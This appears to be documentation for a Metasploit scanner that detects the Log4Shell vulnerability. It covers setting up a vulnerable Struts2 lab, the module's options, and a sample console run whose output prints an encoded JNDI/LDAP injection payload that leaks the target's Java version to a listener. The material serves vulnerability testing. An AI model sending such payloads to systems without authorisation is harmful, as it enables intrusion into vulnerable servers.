 ## Vulnerable Application
This module will scan an HTTP end point for the Log4Shell vulnerability by injecting a format message that will
trigger an LDAP connection to Metasploit. This module is a generic scanner and is only capable of identifying
instances that are vulnerable via one of the pre-determined HTTP request injection points. These points include
HTTP headers and the HTTP request path. Additinally URI paths for common, known-vulnerable applications are included
in the `data/exploits/CVE-2021-44228/http_uris.txt` data file.

This module has been successfully tested with:

* Apache Solr
* Apache Struts2
* Spring Boot
* VMWare VCenter

## Verification Steps

1. Setup a vulnerable Struts2 instance (see the steps below)
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/log4shell_scanner`
4. Set the `SRVHOST`, `RHOSTS`, `RPORT` and `TARGETURI` options
    * For Struts2, set `TARGETURI` to `/struts2-showcase/`
5. Do: `run`
6. The target should be identified as vulnerable

### Struts2 Setup

The following docker file can be used to setup a vulnerable Struts2 instance for testing.

```
#
# To build the image:
#   docker build . -t struts2:2.5.28
# To run the container:
#   docker run --name struts2 --rm -p 8080:8080 struts2:2.5.28
#

ARG version=2.5.28
FROM bitnami/tomcat:9.0
USER root
ENV TOMCAT_PASSWORD password

RUN apt-get update && \
	apt-get -y install unzip && \
	apt-get clean && \
	rm -rf /var/lib/apt/lists/* /tmp/* /var/tmp/*

RUN curl https://dlcdn.apache.org/struts/2.5.28/struts-2.5.28-all.zip > struts-all.zip && \
	unzip struts-all.zip && \
	cp /struts-2.5.28/apps/struts2-showcase.war /bitnami/tomcat/webapps/
```

## Options

### HTTP_METHOD
The HTTP method to use.

### HEADERS_FILE
File containing headers to check, one per line. Lines starting with `#` will be treated as comments.

### URIS_FILE
File containing additional URIs to check, one per line. These values will be appended to the `TARGETURI` option. Lines 
starting with `#` will be treated as comments. Lines may also contain the string `${jndi:uri}` which will be used as the
injection point. This enables query parameters to be included in the request which are required for certain
applications.

### LDAP_TIMEOUT
Time in seconds to wait to receive LDAP connections.

## Scenarios

### Struts2

```
msf6 > use auxiliary/scanner/http/log4shell_scanner 
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set TARGETURI /struts2-showcase/
TARGETURI => /struts2-showcase/
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[*] Started service listener on 192.168.159.128:389 
[+] Log4Shell found via /struts2-showcase/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.159.128%3a389/r7yol50kgg7be/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/log4shell_scanner) > 

```

